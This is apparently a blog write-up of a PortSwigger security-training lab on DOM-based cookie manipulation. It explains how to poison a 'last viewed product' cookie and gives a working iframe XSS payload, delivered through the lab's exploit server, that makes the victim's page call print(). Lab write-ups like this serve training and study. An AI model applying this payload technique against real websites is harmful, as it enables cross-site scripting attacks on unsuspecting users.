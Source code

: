 ```yaml
---
layout: post
title:  "DOM-based cookie manipulation"
date:   2024-11-19 10:20:54 +0530
categories: [BSCP, DOM Based]
---
```


## Objective 

This lab demonstrates DOM-based client-side cookie manipulation. To solve this lab, inject a cookie that will cause XSS on a different page and call the print() function. You will need to use the exploit server to direct the victim to the correct pages. 

## Solution 

From the home tab, we have a functionality where you can view the `Last viewed product` and we can poison that via an XSS payload like here

![]({{ site.baseurl }}/assets/images/dom/dom-6.png)

Now click on the home page, the XSS payload will get triggered and shows a print option 

![]({{ site.baseurl }}/assets/images/dom/dom-7.png)

Now put it all together, we have constructed the following payload which will poison the particular product with an XSS and opens the home page.. where the XSS will execute 

```html
<iframe src="https://0af1005704a5fd1f825470d700700079.web-security-academy.net/product?productId=1&'><script>print()</script>" onload="if(!window.x)this.src='https://0af1005704a5fd1f825470d700700079.web-security-academy.net';window.x=1;">
```

Now through the exploit server, pass the payload and deliver the exploit to victim and that solves the lab 

![]({{ site.baseurl }}/assets/images/dom/dom-8.png)